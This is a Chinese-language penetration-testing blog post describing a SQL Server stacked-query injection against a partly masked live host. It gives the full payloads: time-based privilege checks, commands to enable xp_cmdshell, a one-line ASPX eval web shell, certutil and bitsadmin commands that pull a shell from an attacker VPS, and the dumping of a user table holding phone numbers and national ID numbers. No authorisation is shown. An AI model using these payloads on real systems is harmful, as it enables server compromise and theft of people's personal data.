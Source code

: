```yaml
---
date: 2019-03-02 20:23:35
title: 从 SQL Server 注入到 getshell
description: SQLServer 多语句查询 SQL 注入，读网站路径然后写 shell
categories:
  - Pentest
tags:
  - getshell
  - SQL注入
---
```


### 0x00 目标情况
* 一个web站点111.\*.\*.63，只有一个登陆框，测试了没有注入，没有弱口令
* 扫描了全端口，没有发现什么有用的信息

### 0x01 发现注入
当时是查看网页源代码，有两个可疑接口，一个是初始化密码借口，访问返回空白页面，没有什么用

另一个是密码设置接口，不过这个接口是同网段的另一个ip 111.\*.\*.59，访问后发现是个重置密码的界面
![80](/img/post/Xnip2019-03-03_14-50-18.png)

但是进行密码重置的时候需要发送验证码，系统会先校验用户名是否存在，加单引号出错，and 1=2没反应

burpsuite抓包后sqlmap跑了下，python sqlmap.py -r 1.txt，存在注入
![80](/img/post/Xnip2019-03-03_16-00-32.png)

通过sqlmap得到了这几个数据库
```
[*] HSOA_20170320
[*] HSOA_NEW
[*] HSOA_T
[*] master
[*] model
[*] msdb
[*] Shuttle
[*] SHWT
[*] tempdb
```

### 0x02 找网站绝对路径
* 判断是不是dba权限(延时后返回正确页面，确定为dba权限<也可用sqlmap的--is-dba判断>)

```
uname=test';if(1=(select is_srvrolemember('sysadmin'))) WAITFOR DELAY '0:0:2';--
```

* 判断是否是站库分离(延时后返回正确页面，确定站库没有分离)

```sql
uname=test';if(host_name()=@@servername) WAITFOR DELAY '0:0:5';--
```

* 查看是否有xp_cmdshell

```
uname=test';if(1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell')) WAITFOR DELAY '0:0:2'--
```
```
恢复／删除xp_cmdshell
exec sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll'
exec sp_dropextendedproc 'xplog70.dll'
```

* 开启xp_cmdshell

```
# 关闭xp_cmdshell
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',0;
RECONFIGURE;

# 启用xp_cmdshell
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

* 得到网站绝对路径

可以找一个在网站中的文件，然后可以用```dir /s /b d:\"aa.txt"```或者 for /r d:\ %i in (aa.txt) do echo %i来得到路径

查看网页源代码发现引入了js脚本```"<script src="/Content/layer/layer.js"></script>"```，就查找layer.js吧

本来想使用sqlmap的-\-os-shell直接执行命令试试，python sqlmap.py -r 1.txt --os-shell，但是发现执行命令的话一直没有数据返回


那就手工注入找路径，先建表，将路径插入表，然后得到表内容

```
--在数据库tempdb下创建临时表tt_tmp
uname=test';use tempdb;create table tt_tmp (tmp1 varchar(1000));--
```

sqlmap查看建表成功，```sqlmap -r 1.txt --dbms "Microsoft SQL Server" -D "tempdb" --tables```
![40](/img/post/Xnip2019-03-03_18-16-01.png)

```
--查找网站文件并把路径写入到表tt_tmp
uname=test';use tempdb;insert into tt_tmp(tmp1) exec master..xp_cmdshell 'dir /s /b d:\layer.js';--
```

用sqlmap得到表tt_tmp的内容: ```python sqlmap.py -r 1.txt --dbms="Microsoft SQL Server" --technique=S -D "tempdb" -T "tt_tmp" -C "tmp1" --dump -v 3```
![65](/img/post/Xnip2019-02-28_10-01-37.png)

### 0x03 尝试在111.\*.\*.59主机getshell
* 尝试写一句话

先在下面的路径中写入txt文件验证网站路径到底是哪一个

```
D:\bak\20170226\bak\20170403.2\webapp\Content\layer\
D:\bak\20170226\bak\20170404.2\webapp\Content\layer\
D:\bak\20170226\bak\20170404.3\webapp\Content\layer\
D:\bak\20170226\bak\20170404\webapp\Content\layer\
D:\bak\20170226\bak\20170405\webapp\Content\layer\
D:\bak\20170226\bak\20170407\webapp\Content\layer\
D:\bak\20170226\bak\20180103\webapp\Content\layer\
D:\bak\20170226\bak\20180320\webapp\Content\layer\
D:\bak\20170226\webapp\Content\layer\
D:\bak\20170226\webappYM\Content\layer\
D:\WEBAPP\Content\layer\
```

```sql
uname=test';exec master..xp_cmdshell 'echo test >D:\bak\20170226\bak\20170403.2\webapp\Content\layer\11.txt';--
```
依次写文件然后访问，在写入 ```D:\bak\20170226\webapp\Content\layer\123.txt```时，访问```http://111.*.*.59/Content/layer/123.txt```能正常访问到123.txt，返回内容为test，证明web路径就是D:\bak\20170226\webapp\

尝试写入一句话(< >的前面要加^)
```sql
uname=test';exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.item["Aa1234567"],"unsafe");%^> > D:\bak\20170226\webapp\Content\layer\cc.aspx';--
```

访问时可以看到aa.aspx确实写入了，但是菜刀连接不上
![70](/img/post/Xnip2019-03-03_20-25-24.png)

* 尝试直接下载shell到服务器

使用bitsadmin下载时并没有成功，访问```http://111.*.*.59/Content/layer/aaa.aspx```返回404
```sql
uname=test';exec master..xp_cmdshell 'bitsadmin /rawreturn /transfer getfile http://my-vps/aaa.aspx D:\bak\20170226\webapp\Content\layer\aaa.aspx';--
```

使用certutil下载时才成功，得到shell地址```http://111.*.*.59/Content/layer/aaa.aspx```
```sql
uname=test';exec master..xp_cmdshell 'certutil -urlcache -split -f http://my-vps/aaa.aspx D:\bak\20170226\webapp\Content\layer\aaa.aspx';--
```
![70](/img/post/Xnip2019-03-03_20-42-24.png)

### 0x04 查数据库相关信息
* 找到数据库配置文件
![80](/img/post/Xnip2019-03-05_10-25-52.png)
![90](/img/post/Xnip2019-03-05_10-34-10.png)
![90](/img/post/Xnip2019-03-05_10-37-28.png)

* 尝试登陆

找到了用户表，有用户名、密码、姓名、手机号、邮箱、身份证号
![80](/img/post/Xnip2019-03-05_11-00-44.png)
在111.\*.\*.63登陆发现它只是个登陆接口，真正网站是在111.\*.\*.59的
![60](/img/post/Xnip2019-03-05_11-03-08.png)


### 0x05 附：sqlmap得到路径的语句分析
```sql
cast转换数据类型
isnull判断数据是否为空，为空的话返回char(32)
unicode字符转换为10进制数字

IF(UNICODE(SUBSTRING((SELECT MIN(ISNULL(CAST(tmp1 AS NVARCHAR(4000)),CHAR(32))) FROM tempdb.dbo.tt_tmp),1,1))>32) WAITFOR DELAY '0:0:1';

IF(UNICODE(SUBSTRING((SELECT MIN(ISNULL(CAST(tmp1 AS NVARCHAR(4000)),CHAR(32))) FROM tempdb.dbo.tt_tmp WHERE CONVERT(NVARCHAR(4000),tmp1)>'D:\WEBAPP\Content\layer\layer.js'),1,1))>16) WAITFOR DELAY '0:0:1';
```



#### Reference(侵删)：
* [https://www.cnblogs.com/backlion/p/6869595.html](https://www.cnblogs.com/backlion/p/6869595.html?_blank)


